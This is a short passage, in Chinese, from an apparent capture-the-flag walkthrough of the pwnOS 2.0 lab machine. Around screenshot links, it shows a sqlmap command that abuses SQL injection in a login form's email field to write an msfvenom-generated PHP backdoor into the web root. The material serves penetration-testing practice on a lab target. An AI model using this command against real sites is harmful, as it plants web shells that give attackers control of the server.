 ![Alt text](/img/game/pwnos2.0/1511852283029.png)


尝试使用sqlmap写文件到web根目录下：

```bash
root@kali:~# sqlmap -u "http://10.10.10.100/login.php" --data="email=admin@test.com&pass=admin&submit=login&submitted=TRUE" -p email --file-write /root/Downloads/backdoor.php --file-dest /var/www/backdoor.php
```

> `backdoor.php`是上文使用msfvenom生成的php 后门

![Alt text](/img/game/pwnos2.0/1511852348154.png)

